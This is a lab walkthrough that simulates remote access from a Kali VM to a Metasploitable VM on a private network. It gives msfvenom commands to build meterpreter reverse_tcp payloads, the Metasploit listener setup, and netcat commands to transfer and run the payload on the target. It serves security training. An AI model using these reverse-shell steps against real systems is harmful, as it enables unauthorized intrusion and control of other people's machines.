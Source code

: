 # Simulating Remote Access
Attacker: 10.0.2.15 (Kali Linux)  
Target: 10.0.2.4 (metasploitable)  

Steps
1. We create a payload, which will establish a connection to the hacking VM
2. Get this payload to the target machine
3. Have a listener running on the attacker's machine, which will receive the connection.
4. Finally execute the payload from the target machine.
5. And then explore the abilities of metasploit's meterpreter.

**Creating the malicious executable**  
```console
berkankutuk@kali:~$ msfvenom -p linux/x86/meterpreter/reverse_tcp -a x86 --platform linux -f elf LHOST=10.0.2.15 LPORT=1337 -o payload.elf
```

For windows
```console
berkankutuk@kali:~$ msfvenom -p windows/meterpreter/reverse_tcp -a x86 --platform windows -f exe LHOST=10.0.2.15 LPORT=1337 -o payload.exe
```

**Can you explain the difference in the parameter of the "-f" option? What is it good for?**

```console
berkankutuk@kali:~$ man msfvenom | grep "\-f" # Using the manual page to get the answer
```

Answer: The flag `-f` sets the output format

# Setting up a Listener
**The above malicious code is trying to access a configured host/port combination, awaiting further instructions. Therefore, we have to provide a server the malicious code can connect to.**

```console
berkankutuk@kali:~$ msfconsole
msf6:~$ use multi/handler
msf6:~$ set payload linux/x86/meterpreter/reverse_tcp
msf6:~$ show options
msf6:~$ set LHOST 10.0.2.15
msf6:~$ set LPORT 1337
msf6:~$ exploit
```

now open another terminal
```console
berkankutuk@kali:~$ nc -lvp 1337 < payload.elf
```

shift over to your target machine and type

```console
vagrant:~$ nc 10.0.2.15 1337 > payload.elf # Connecting to the port
vagrant:~$ chmod a+x ./payload.elf # Making the file executable
vagrant:~$ ./payload.elf # Running the executable
```
aaand back to the host again
